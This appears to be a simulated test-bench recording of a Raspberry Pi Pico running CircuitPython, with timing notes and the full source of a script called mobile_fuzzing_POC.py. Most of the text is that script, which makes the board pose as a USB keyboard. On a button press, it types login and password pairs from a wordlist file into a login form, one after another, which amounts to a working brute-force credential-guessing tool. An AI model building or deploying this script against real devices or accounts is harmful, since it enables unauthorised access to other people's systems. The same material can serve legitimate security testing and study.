
Recording of a program running on a simulated Raspberry Pi Pico running CircuitPython. Parts: output pins drawn as LEDs (lit = HIGH). Inputs (shaded band) come from the test bench; at power-on: GP9 (button) HIGH. USB keyboard and mouse output is not drawn.

Above: at 1.2 s.
1.3 s: GP9 (button) pulled LOW for 0.15 s
At 2.3 s:

Timing chart, 0 to 11.8 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 1.3 s, GP8 (led): LOW → HIGH at once, → LOW 9.0 s later

The program:

mobile_fuzzing_POC.py
```python
### LIBRARIES ###
import usb_hid
import board
import time
import digitalio

from adafruit_hid.keyboard import Keyboard
from adafruit_hid.keycode import Keycode
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS

### VARIABLES ###
button = digitalio.DigitalInOut(board.GP9)
led = digitalio.DigitalInOut(board.GP8)
led.direction = digitalio.Direction.OUTPUT
button.switch_to_input(pull = digitalio.Pull.UP)
filePath = "./wordlist.txt"
kbd = Keyboard(usb_hid.devices)
layout = KeyboardLayoutUS(kbd)

### FUNCTIONS ###
def typeCredentials(login, password):
  layout.write(login)
  kbd.send(Keycode.TAB)
  layout.write(password)
  kbd.send(Keycode.TAB)
  kbd.send(Keycode.ENTER)
  time.sleep(1)
  kbd.send(Keycode.TAB)
  kbd.send(Keycode.ENTER)
  kbd.send(Keycode.TAB)

### MAIN LOOOP ###
while True:
  if button.value == False: # If the button is pressed
    try:
      with open(filePath, "r") as file:
        for line in file:
          led.value = True
          words = line.strip().split(',')
          login = words[0]
          password = words[1]
          typeCredentials(login, password)
          time.sleep(1)
          led.value = False
    except: print("[-] Error")
```
